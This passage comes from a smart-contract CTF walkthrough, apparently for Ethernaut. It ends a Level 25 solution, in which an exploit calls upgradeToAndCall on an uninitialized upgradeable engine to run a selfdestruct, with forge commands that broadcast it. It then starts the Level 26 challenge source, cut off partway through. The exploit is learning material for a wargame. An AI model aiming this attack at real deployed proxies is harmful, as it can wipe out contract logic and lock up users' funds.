 ```solidity
        console.log(engine.upgrader());

        bytes memory killSelector = abi.encodeWithSelector(this.kill.selector);

        engine.upgradeToAndCall(address(this), killSelector);
    }

    function kill() external {
        selfdestruct(payable(address(this)));
    }

    receive() external payable {}
}

```

**To run the script**

```
$ source .env
$ forge script script/Level25Solution.s.sol:Level25Sol --rpc-url $RPC_URL --broadcast
```

## Double Entry Point

**Level26.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "openzeppelin-contracts-06/access/Ownable.sol";
import "openzeppelin-contracts-06/token/ERC20/ERC20.sol";

interface DelegateERC20 {
    function delegateTransfer(
        address to,
        uint256 value,
        address origSender
    ) external returns (bool);
}

interface IDetectionBot {
    function handleTransaction(address user, bytes calldata msgData) external;
}

interface IForta {
    function setDetectionBot(address detectionBotAddress) external;

    function notify(address user, bytes calldata msgData) external;

    function raiseAlert(address user) external;
}

contract Forta is IForta {
    mapping(address => IDetectionBot) public usersDetectionBots;
    mapping(address => uint256) public botRaisedAlerts;

    function setDetectionBot(address detectionBotAddress) external override {
        usersDetectionBots[msg.sender] = IDetectionBot(detectionBotAddress);
    }

    function notify(address user, bytes calldata msgData) external override {
        if (address(usersDetectionBots[user]) == address(0)) return;
        try usersDetectionBots[user].handleTransaction(user, msgData) {
```
